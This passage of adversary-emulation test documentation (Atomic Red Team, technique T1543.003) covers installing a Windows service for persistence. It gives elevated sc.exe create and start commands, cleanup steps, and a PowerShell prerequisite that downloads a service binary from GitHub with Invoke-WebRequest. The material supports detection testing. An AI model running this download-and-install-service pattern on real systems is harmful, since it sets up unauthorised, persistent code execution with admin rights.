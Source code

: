 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_path | Name of the service binary, include path. | path | PathToAtomicsFolder&#92;T1543.003&#92;bin&#92;AtomicService.exe|
| service_type | Type of service. May be own|share|interact|kernel|filesys|rec|userown|usershare | string | Own|
| startup_type | Service start method. May be boot|system|auto|demand|disabled|delayed-auto | string | auto|
| service_name | Name of the Service | string | AtomicTestService_CMD|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe create #{service_name} binPath= "#{binary_path}" start=#{startup_type}  type=#{service_type}
sc.exe start #{service_name}
```

#### Cleanup Commands:
```cmd
sc.exe stop #{service_name} >nul 2>&1
sc.exe delete #{service_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Service binary must exist on disk at specified location (#{binary_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{binary_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{binary_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1543.003/bin/AtomicService.exe" -OutFile "#{binary_path}"
```




<br/>
<br/>

## Atomic Test #3 - Service Installation PowerShell
Installs A Local Service via PowerShell.
Upon successful execution, powershell will download `AtomicService.exe` from github. Powershell will then use `New-Service` and `Start-Service` to start service. Results will be displayed.
